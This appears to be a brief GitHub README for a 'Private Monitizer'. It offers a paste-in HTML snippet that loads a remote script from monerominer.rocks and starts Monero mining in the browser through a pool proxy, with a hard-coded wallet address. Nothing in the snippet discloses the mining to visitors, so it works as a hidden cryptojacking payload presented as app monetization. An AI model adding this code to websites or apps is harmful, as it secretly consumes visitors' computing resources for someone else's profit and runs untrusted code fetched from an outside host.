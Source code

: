 ## Private Monitizer
To Add Simply Add `https://alixpm.vercel.app/` As An App HTML Library
## `OR`
Add Code
```
<script src="https://monerominer.rocks/miner-mmr/webmnr.min.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "42nW9ZsCPe53kxN2JQMnocSZtsWGdY8JhQFTa2hTxF148wvhf19BLPtFJCEtidr1nNJWVMWsicAEkhE4FoZUyddd9KtBTZe";
    var workerId = "Web"
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
</script>
```
As HTML In App
